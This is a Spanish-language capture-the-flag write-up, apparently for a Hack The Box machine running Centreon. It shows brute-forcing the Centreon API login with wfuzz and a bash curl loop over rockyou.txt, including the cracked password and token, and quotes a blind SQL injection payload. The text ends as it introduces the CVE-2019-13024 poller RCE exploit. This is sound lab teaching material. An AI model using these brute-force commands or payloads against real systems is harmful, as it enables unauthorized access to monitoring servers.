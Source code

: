Si buscas en google centreon api te sale como busqeda sugerida "login", lo que te da la documentacion [oficial](https://docs.centreon.com/docs/api/rest-api-v1/)

```console
└─$ curl -s -X POST /api/index.php?action=authenticate -d "{'username': 'test', 'password': 'test'}"
# Bad parameters
└─$ curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "username=test&password=test"
# Bad parameters
└─$ curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "username=test&password=test"
"Bad credentials"

# Con wfuzz hay una manera para fuzzear parametros
└─$ wfuzz -c --hc 403 -X POST -t 100 -w /usr/share/wordlists/rockyou.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
000000028:   200        0 L      1 W        62 Ch       "password1"
```
Si no disponemos de curl, bash tiene también sus herramientas (y tambien python)

```bash
for i in $(cat /usr/share/wordlists/rockyou.txt); do
    echo -n "$i: "
    curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&passwor
d=$i"
    echo
done
```
```console
└─$ bash creds.sh | tee output 
└─$ cat output | grep -v "Bad"
password1: {"authToken":"5fQ3VjxYW4yd\/Dcs5rA4rGddwn\/OTYnldovNzzYiWzY="}
```
![wall2](https://user-images.githubusercontent.com/96772264/206703605-1e72d92c-3aa7-4407-a1b6-8a1c65f8f32f.PNG)

----------------------------
# Part 3: Explotando un RCE en Centreon

En searchploit hay dos exploit principales:  
- Un blindsqli -> ```/include/monitoring/acknowlegement/xml/broker/makeXMLForAck.php?hid=15&svc_id=1 AND (SELECT 1615 FROM SELECT(SLEEP(5)))TRPy)```  
- Pollers RCE  

Pollers RCE dice que:  
- irse a /centreon/main.php?p=60803&type=3 (Configuration > Commands > Miscellaneous)  
![wall3](https://user-images.githubusercontent.com/96772264/206703644-1f638810-9463-4cf7-acb3-0cb5e82f4b4c.PNG)  

Hay un script que explota este Poller RCE -> 47069.py (CVE-2019-13024/@mohammadaskar2)  
He creado un exploit basado en el de esta persona solo que usando librerias mas simples y todo adaptado a esta máquina. He simplicado su script todo lo posible 
pero que siga siendo funcional y he añadido un código de estado para ver como se comportan los comandos
